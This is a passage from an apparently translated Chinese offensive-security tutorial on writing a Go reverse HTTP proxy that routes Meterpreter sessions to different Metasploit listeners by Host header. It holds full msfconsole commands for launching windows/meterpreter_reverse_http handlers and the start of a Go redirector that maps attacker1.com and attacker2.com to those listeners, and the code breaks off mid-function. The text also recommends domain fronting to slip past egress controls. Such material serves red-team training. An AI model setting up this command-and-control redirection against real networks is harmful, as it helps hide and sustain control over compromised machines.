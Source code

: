 这是HTTP服务器章节的最后一部分。在这里将了解如何将Meterpreter HTTP连接多路复用到不同的后端控制服务器。*Meterpreter* 是Metasploit开发框架中流行的，灵活的命令与控制（C2）套件。我们不会过多的介绍Metasploit或Meterpreter的细节。对于新手的话，最好通读下网站上的教程或文档。

在本节中，将介绍如何在Go中创建反向HTTP代理，以便能根据Host的HTTP报头（这是虚拟网站托管的工作方式）来动态路由收到的session。但是，把代理连接到不同的Meterpreter监听器，而不是提供不同的本地文件和目录。这是一个有趣的用例，原因如下。

首先，代理充当重定向器，这样就可以只公开该域名和IP地址，而不公开Metasploit监听器。如果重定向器被拉黑，可以简单地移除掉，而不用动C2服务器。第二，可以扩展这里的概念来执行 *domain fronting*，是一种利用信任的第三方域名（通常来自云提供商）绕过限制性出口控制的一种技术。我们不会在这里讨论一个完整的例子，但还是强烈建议深入研究下，因为它非常有用，能退出受限制的网络。最后，使用例子来演示如何在可能攻击不同目标组织的联合团队之间共享单个主机/端口组合。由于端口80和443是最可能允许访问的端口，可以让代理监听这些端口，并智能地将链接路由到正确的监听器。

这是计划。设置两个单独的Meterpreter反向HTTP侦听器。在本例中个，它们安装在IP地址为10.0.1.20的虚拟机中，但是它们很可能存在于不同的主机上。将监听器分别绑定到10080 到 20080端口。在真实的情况下，这些监听器可以运行在任何地方，只要代理能访问到这些端口。确保已经安装了Metasploit(在Kali Linux上是预先安装了的)；然后启动监听器：

```shell
$ msfconsole
> use exploit/multi/handler
> set payload windows/meterpreter_reverse_http
> set LHOST 10.0.1.20 > set LPORT 80
> set ReverseListenerBindAddress 10.0.1.20 > set ReverseListenerBindPort 10080
> exploit -j -z
[*] Exploit running as background job 1.

[*] Started HTTP reverse handler on http://10.0.1.20:10080
```

当启动监听器时，提供代理数据作为 `LHOST` 和 `LPORT` 的值。然而，设置高级选项 `ReverseListenerBindAddress` 和 `ReverseListenerBindPort` 为监听器启动的真实的IP和端口，这为提供了一些端口使用的灵活性，同时允许明确地标识出代理主机——可以是主机名，例如，设置为域前置。

在第二个Metasploit实例中，执行类似的操作，在端口20080上启动一个额外的监听器。真正唯一不一样的地方是绑定了不同的端口：

```shell
$ msfconsole
> use exploit/multi/handler
> set payload windows/meterpreter_reverse_http > set LHOST 10.0.1.20
> set LPORT 80
> set ReverseListenerBindAddress 10.0.1.20
> set ReverseListenerBindPort 20080
> exploit -j -z
[*] Exploit running as background job 1.

[*] Started HTTP reverse handler on http://10.0.1.20:20080
```

现在来创建反向代理。代码4-10是完整的代码。

```go
package main

import (
	"log"
	"net/http"
	"net/http/httputil"
	"net/url"

	"github.com/gorilla/mux"
)

var (
	hostProxy = make(map[string]string)
	proxies   = make(map[string]*httputil.ReverseProxy)
)

func init() {
	hostProxy["attacker1.com"] = "http://10.0.1.20:10080"
	hostProxy["attacker2.com"] = "http://10.0.1.20:20080"

	for k, v := range hostProxy {
		remote, err := url.Parse(v)
		if err != nil {
```